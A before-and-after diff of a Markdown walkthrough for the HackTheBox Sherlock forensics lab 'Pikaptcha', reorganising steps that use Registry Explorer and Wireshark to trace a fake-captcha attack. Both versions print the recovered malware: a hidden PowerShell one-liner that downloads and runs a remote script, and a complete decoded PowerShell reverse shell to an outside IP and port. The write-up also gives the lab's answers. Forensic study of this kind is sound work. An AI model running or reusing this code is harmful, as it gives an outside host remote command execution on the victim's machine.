

Before and after one commit to abubakar-shahid/HackTheBox-Sherlocks-Writeups, a Markdown page: Pikaptcha/Pikaptcha.md, 3 parts joined by grey strips. Shown: that part at 88% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Pikaptcha/Pikaptcha.md
+++ b/Pikaptcha/Pikaptcha.md
@@ -1,7 +1,10 @@
-# To complete the lab, we needed Registry Explorer to analyze the logs of the nat and log files. Moreover, needed wireshark to analyze the pcapng file. If you are using windows, you need to download the second tool only, first one is already available. If you are using kali, you need to download the first one. The process to download the registry explorer is:
-i. Go to [https://ericzimmerman.github.io/#!index.md] and download [Registry Explorer]. Unzip the file and run the exe to complete the installation. You also have to install the [windowsdesktop-runtime-6.0.36-win-x64], run its exe to complete its installation as well. This allows you to run the windows applications on the linux. Also make sure that you have [wine] installed on your linux. now run the command [wine RegistryExplorer.exe] in the directory where this exe is present. This will run the Registry Explorer.
+# Pikaptcha
 
-1. Open the [NTUSER.DAT] file in the Registry Explorer which will create [NTUSER.DAT_clean] file. This file contains information of the complete logs and what happened in the system when the attack happened. Here, you can see tow main tabs: [Registry hives] and [Available bookmarks]. Click on the second one. Now scroll down a little and you will see a directory named [RunMRU]. Click on this and you will see and executable [powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"], and this is the flag.
+## Challenge Information
+- **Challenge Name**: Pikaptcha
+- **Category**: Digital Forensics
+- **Difficulty Level**: Easy
 
-2. Very next to the above flag, there is the UTC time when this was installed [2024-09-23 05:07:45].
+## Required Tools
+To complete the lab, we needed Registry Explorer to analyze the logs of the nat and log files. Moreover, needed Wireshark to analyze the pcapng file. If you are using Windows, you need to download the second tool only, first one is already available. If you are using Kali, you need to download the first one.
 
@@ -10,17 +21,14 @@ We have to get the installed file. For this, go to File->Export Objects->HTTP an
 
-4. Decode the base64 that we got in the above task. This will give us the original shell code, where we can find the port.
-$client = New-Object System.Net.Sockets.TCPClient("43.205.115.44",6969);
-$stream = $client.GetStream();
-[byte[]]$bytes = 0..65535 | %{0};
-while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
-    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
-    $sendback = (iex $data 2>&1 | Out-String);
-    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
-    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
-    $stream.Write($sendbyte, 0, $sendbyte.Length);
-    $stream.Flush();
-};
-$client.Close();
+## Investigation Steps
 
-5. Use the same filter [ip.addr== 43.205.115.44] and go to the last packet, which most probably also the last packet of this pcapng file. Here, go to the [Transmission Control Protocol ............]. Go to [Timestamps].Since this is the last packet of the conversation, the time shows the total time of the conversation [403].
+1. Registry Analysis:
+   - Open the `NTUSER.DAT` file in the Registry Explorer which will create `NTUSER.DAT_clean` file
+   - This file contains information of the complete logs and what happened in the system when the attack happened
+   - You can see two main tabs: `Registry hives` and `Available bookmarks`
+   - Click on the second one
+   - Scroll down to find a directory named `RunMRU`
+   - Here you will see the malicious executable:
+   ```powershell
+   powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"
+   ```
 
@@ -27,0 +56,19 @@ $client.Close();
+4. Malware Analysis:
+   - Decode the base64 from step 3 to reveal the original shell code and identify the port number. The decoding will give the following shell code:
+```bash
+$client = New-Object System.Net.Sockets.TCPClient("43.205.115.44",6969); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | %{0}; while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String); $sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush(); }; $client.Close();
+```
+
+5. Network Traffic Duration:
+   - Using filter `ip.addr== 43.205.115.44`
+   - Go to the last packet in the pcapng file
+   - Navigate to `Transmission Control Protocol`
+   - Check `Timestamps`
+   - Total conversation time: `403` seconds
+
+6. Web Traffic Analysis:
+   - Using filter `ip.addr== 43.205.115.44`
+   - Look for successful GET request (200 status code)
+   - Response type: `text/html`
+   - Follow the stream to find the HTML file
+   - In the JavaScript section, locate function `stageClipboard` responsible for the malicious payload
````
Also changed, not shown: other parts of Pikaptcha/Pikaptcha.md (+31 -3 lines).
